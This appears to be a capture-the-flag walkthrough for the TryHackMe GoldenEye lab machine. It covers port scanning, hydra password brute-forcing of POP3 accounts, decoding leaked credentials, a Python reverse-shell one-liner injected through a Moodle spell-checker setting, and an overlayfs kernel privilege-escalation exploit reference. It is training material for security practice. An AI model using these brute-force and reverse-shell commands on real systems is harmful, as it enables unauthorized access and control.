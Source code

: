# THM-GoldenEye-writeup
Bond, James Bond. A guided CTF.

![77b55a2ac1ac79ca534d6fc003c042b3](https://user-images.githubusercontent.com/94487022/160829623-026285c0-359d-4d02-87b8-b31d078a107b.png)

Scanning ports as usual. 

``nmap -p- -Pn <Machine IP>``

![nmapresult](https://user-images.githubusercontent.com/94487022/160829845-21abb82f-5bed-4f2b-b042-93d9d3da0aa2.png)

Nmap detects 4 open ports. Looks like 80 port is open so there is a website. Let's check.

![website](https://user-images.githubusercontent.com/94487022/160830612-c65f64a2-e989-42c8-95f2-f20c77d6d25f.png)

Reviewing source code.

![sourcepage](https://user-images.githubusercontent.com/94487022/160831159-46cc97cb-ebe9-4cd8-afbc-97dddd435a89.png)

What is terminal.js? Let's see what is.

![boriswithencodedpasswd](https://user-images.githubusercontent.com/94487022/160831358-1c76bf33-3775-46fd-a69c-b39406e996f1.png)

There is a sensitive data. Problem is encoded password. That is encoded with HTML entity.

![decode](https://user-images.githubusercontent.com/94487022/160831792-92752eec-199b-4210-bb80-0f6371cd3aa0.png)

Got the password. Now try this on the /sev-home page.

![loginpage](https://user-images.githubusercontent.com/94487022/160832121-1ff357c7-b40e-4948-9eee-b4c3a54bd31d.png)

![wein](https://user-images.githubusercontent.com/94487022/160832161-72ededc8-fafe-415e-b4c6-32a549f25609.png)

We're in. We need to access the pop3 server.

![pop3loginfailed](https://user-images.githubusercontent.com/94487022/160832592-8458218e-4809-4ce6-bf7b-debb69261267.png)

Access denied. We can brute-force via hydra. I ran hydra with rockyou.txt but didn't work. After that tried fasttrack.txt.

``hydra -l boris -P /usr/share/wordlists/fasttrack.txt <Machine IP> -s 55007 pop3``


![pop3credentials](https://user-images.githubusercontent.com/94487022/160833293-f11a2e14-a786-4cc0-82f3-683550c263b3.png)

We got password. When we logged in, try to read all emails contents.

![firstmessage](https://user-images.githubusercontent.com/94487022/160833462-6e9ae103-7c77-4014-ba58-156ef5d71d65.png)

![secondmssg](https://user-images.githubusercontent.com/94487022/160833672-2a202f7b-e6e4-4781-8f89-8f4d137e296f.png)

![thirdmsg](https://user-images.githubusercontent.com/94487022/160833713-7a5e242a-26fc-455d-8f4b-bdcf382a3195.png)

We still need more intel. Now let's try to brute force again with natalya.

``hydra -l natalya -P /usr/share/wordlists/fasttrack.txt <Machine IP> -s 55007 pop3``


![natalyapsswrd](https://user-images.githubusercontent.com/94487022/160834202-8fd683a4-f4c0-4097-90b1-f321b817d237.png)

![natalyafirstmsg](https://user-images.githubusercontent.com/94487022/160834250-63513e4d-596a-493a-b7d8-8970809483ff.png)

![natalyasecondmsg](https://user-images.githubusercontent.com/94487022/160834254-fe1c7275-29e1-4f12-8c71-3079d40302bc.png)

OK. So we got student xenia’s login credentials. The message also mentioned an internal domain called severnaya-station.com/gnocertdir. To connect with the domain, we need to edit /etc/hosts file.

![etchostsedit](https://user-images.githubusercontent.com/94487022/160834887-4aff85b8-4cd5-4edf-b140-296d1c70f068.png)

We are ready to access website. We logged in.

![messagefromdoak](https://user-images.githubusercontent.com/94487022/160835225-fce4469e-64ae-4512-8425-4a86aba8c38b.png)

![mailusername](https://user-images.githubusercontent.com/94487022/160835537-00cf5d04-540c-443b-af8a-1d0e036f6108.png)

There is a message from Mr. Doak. He gave us his own username. Time to brute force.

``hydra -l doak -P /usr/share/wordlists/fasttrack.txt <Machine IP> -s 55007 pop3``


![doakpasswd](https://user-images.githubusercontent.com/94487022/160835792-f87d7929-dbbe-4e00-b4d5-d872b7b7af75.png)

![doaksmailmsg](https://user-images.githubusercontent.com/94487022/160835905-4699696d-a9d3-426f-84a0-532f619e145c.png)

Thanks to Mr. Doak. He gave us his own password again. We logged in.

![forjames](https://user-images.githubusercontent.com/94487022/160836197-58f9f7d8-ad4f-4548-bca1-42f6d3a1548c.png)

We're in and got file named "forjames". Downloaded.

![s3crettxt](https://user-images.githubusercontent.com/94487022/160836454-844f5b8c-344a-4390-a57d-a8b39e79de87.png)

![for007jpg](https://user-images.githubusercontent.com/94487022/160836477-9a29c160-8c06-41e8-b6c2-3e64883f8fee.png)

Let’s analyze its metadata.

``$ wget http://<Machine IP>/dir007key/for-007.jpg
  $ /data/src/exiftool-12/exiftool for-007.jpg
  ExifTool Version Number         : 12.00
  File Name                       : for-007.jpg
  Directory                       : .
  File Size                       : 15 kB
File Modification Date/Time     : 2018:04:25 02:40:02+02:00
File Access Date/Time           : 2020:06:24 18:39:55+02:00
File Inode Change Date/Time     : 2020:06:24 18:39:54+02:00
File Permissions                : rw-rw-r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
X Resolution                    : 300
Y Resolution                    : 300
Exif Byte Order                 : Big-endian (Motorola, MM)
Image Description               : eFdpbnRlcjE5OTV4IQ==
Make                            : GoldenEye
Resolution Unit                 : inches
Software                        : linux
Artist                          : For James
Y Cb Cr Positioning             : Centered
Exif Version                    : 0231
Components Configuration        : Y, Cb, Cr, -
User Comment                    : For 007
Flashpix Version                : 0100
Image Width                     : 313
Image Height                    : 212
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:4:4 (1 1)
Image Size                      : 313x212
Megapixels                      : 0.066``


There is a image description with encoded data.

`` eFdpbnRlcjE5OTV4IQ== > xWinter1995x! ``


We can now login as admin.

![admindashboard](https://user-images.githubusercontent.com/94487022/160872290-52ad032f-0c69-4c13-8e50-b38059e3cb69.png)

We need to generate a reverse shell. From here we get a reverse shell using python and netcat.

``nc -nvlp 4444``

``python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
``

Hint : Settings->Aspell->Path to aspell field, add your code to be executed. Then create a new page and "spell check it".

There are 2 settings to edit.

![spell](https://user-images.githubusercontent.com/94487022/160873125-d21d8a8c-0272-450a-b35a-897b2028f5c6.png)

Now go to Blog > Add a new entry and click spell checker button.

![spellchecker](https://user-images.githubusercontent.com/94487022/160874199-d1752099-0e85-4193-a51a-207667dbf102.png)

That's it. We got a shell.

We can see kernel version now.

``
$ uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
``


kernel version is ``3.13.0-32-generic``.

This machine is vulnerable to the overlayfs exploit. The exploitation is technically very simple:

  Create new user and mount namespace using clone with CLONE_NEWUSER|CLONE_NEWNS flags.
  
  Mount an overlayfs using /bin as lower filesystem, some temporary directories as upper and work directory.
  
  Overlayfs mount would only be visible within user namespace, so let namespace process change CWD to overlayfs, thus making the overlayfs also visible outside the namespace via the proc filesystem.
  
  Make su on overlayfs world writable without changing the owner
  
  Let process outside user namespace write arbitrary content to the file applying a slightly modified variant of the SetgidDirectoryPrivilegeEscalation exploit.
  
  Execute the modified su binary
  

You can download the exploit from here: https://www.exploit-db.com/exploits/37292
  
  Exploit Title                                                                       |  Path
  ------------------------------------------------------------------------------------ ---------------------------------
  Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Pri | linux/local/37292.c
  
  
  Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Pri | linux/local/37293.txt
  ------------------------------------------------------------------------------------ ---------------------------------
  Shellcodes: No Results
  
  
  After that transfer the exploit that you have downloaded 37292.c to the server.
  ``-m 37292``
